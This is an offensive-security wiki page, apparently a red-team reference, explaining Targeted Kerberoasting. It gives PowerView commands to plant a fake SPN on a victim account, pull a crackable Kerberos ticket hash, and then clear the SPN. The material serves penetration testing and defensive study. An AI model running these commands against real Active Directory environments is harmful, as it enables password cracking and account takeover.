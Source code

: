 # Targeted Kerberoasting

This abuse can be carried out when controlling an object that has `WriteProperty`, `GenericWrite` or `GenericAll` over a target user.

The attacker can add a SPN \(ServicePrincipalName\) to that account. Once the account has a SPN, it becomes vulnerable to [Kerberoasting](../abusing-kerberos/kerberoast.md). This technique is called Targeted Kerberoasting. This can be achieved with [Set-DomainObject](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainObject/) and [Get-DomainSPNTicket](https://powersploit.readthedocs.io/en/latest/Recon/Get-DomainSPNTicket/) \([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) module\).

```bash
# Make sur that the target account has no SPN
Get-DomainUser 'victimuser' | Select serviceprincipalname

# Set the SPN
Set-DomainObject -Identity 'victimuser' -Set @{serviceprincipalname='nonexistent/BLAHBLAH'}

# Obtain a kerberoast hash
$User = Get-DomainUser 'victimuser'
$User | Get-DomainSPNTicket | fl

# Clear the SPNs of the target account
$User | Select serviceprincipalname
Set-DomainObject -Identity victimuser -Clear serviceprincipalname
```

Once the Kerberoast hash is obtained, it can possibly be cracked to recover the account's password if the password used is weak enough.

